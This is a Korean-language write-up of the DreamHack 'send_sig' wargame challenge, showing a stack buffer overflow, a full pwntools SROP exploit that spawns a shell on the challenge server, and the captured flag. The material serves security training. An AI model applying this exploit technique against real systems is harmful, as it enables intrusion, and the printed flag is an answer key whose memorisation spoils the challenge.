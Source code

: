 # [DreamHack] send_sig

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 서버로 signal을 보낼 수 있는 프로그램입니다!
> 프로그램의 취약점을 찾고, 익스플로잇해 flag를 읽어보세요.
> flag는 home/send_sig/flag.txt에 있습니다.
>
> Release: [send_sig.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533321/send_sig.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161734841-cf4a5da4-81b2-47ad-8e42-fdd5c500542b.png)

## Analysis

```c
ssize_t vuln()
{
  char buf[8]; // [rsp+8h] [rbp-8h] BYREF

  write(1, "Signal:", 7uLL);
  return read(0, buf, 0x400uLL);
}
```

`read(0, buf, 0x400uLL)`에서 BOF가 발생한다. 충분히 긴 입력을 줄 수 있어서 ROP를 수행할 수 있다.

![image](https://user-images.githubusercontent.com/102066383/161742186-b2851ac1-b729-445d-821f-ed7800e9d7c0.png)

바이너리에 `pop rax; ret`, `syscall; ret` 가젯과 `"/bin/sh"` 문자열이 있으므로, 이를 이용해서 SROP로 `execve("/bin/sh", 0, 0)`을 호출하여 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('/home/send_sig/send_sig')
else:
    r = remote('host1.dreamhack.games', 16223)

pop_rax = 0x4010ae  # pop rax; ret
syscall = 0x4010b0  # syscall; ret
binsh = 0x402000  # "/bin/sh"

payload = b'a' * 0x10  # dummy
payload += p64(pop_rax)
payload += p64(0xf)  # syscall number of rt_sigreturn
payload += p64(syscall)

# execve("/bin/sh", 0, 0)
frame = SigreturnFrame()
frame.rax = 0x3b  # syscall number of execve
frame.rdi = binsh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall
payload += bytes(frame)

r.sendafter('Signal:', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 16223: Done
[*] Switching to interactive mode
$ cat flag.txt
DH{2F84BD30D87330534AC417647DA4EEDC}
```